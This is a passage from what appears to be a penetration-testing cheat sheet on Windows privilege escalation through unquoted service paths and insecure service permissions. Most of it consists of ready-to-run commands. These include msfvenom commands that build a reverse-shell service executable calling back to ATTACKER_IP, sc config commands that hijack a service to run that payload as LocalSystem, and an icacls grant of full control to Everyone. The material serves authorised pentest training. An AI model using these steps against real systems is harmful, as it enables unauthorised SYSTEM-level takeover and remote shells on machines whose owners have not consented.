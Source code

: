### Unquoted Service Paths
Unquoted service binary path may allow attacker to profide mailcious binary file.

In case of unquoted service Service Control Manager (SCM) will try to execute binary `C:\Programs\test1 test2\target.exe`in the follwing order.
1. `C:\Programs\test1.exe`
2. `C:\Programs\test1 test2.exe`
2. `C:\Programs\test1 test2\target.exe`

Check the directory permissions to place malicious executable:
```bat
icacls C:\<directory_path>
```

If permissions allow, create malicious binary with payload and place it in a given directory

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

Restart service (if possible):
```bat
sc stop <service_name>
sc start <service_name>
```

### Insecure Service Permissions
Insecure Service Permissions may allow attacker to modify service with malicious payload.

Check for a service DACL using [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk):
```powershell
accesschk64.exe -qlc <service_name>
```

`SERVICE_ALL_ACCESS` permission means that any user can reconfigure the service.

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

Grant permissions to Everyone to execute your payload:
```bat
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Change the service's associated executable and account:
```bat
sc config <service_name> binPath= "C:\Users\<user>\revshell-svc.exe" obj= LocalSystem
```

Restart service (if possible):
```bat
sc stop <service_name>
sc start <service_name>
```

## Abusing Vulnerable Software

List software installed on the target system and its versions:
```bat
wmic product get name,version,vendor
```
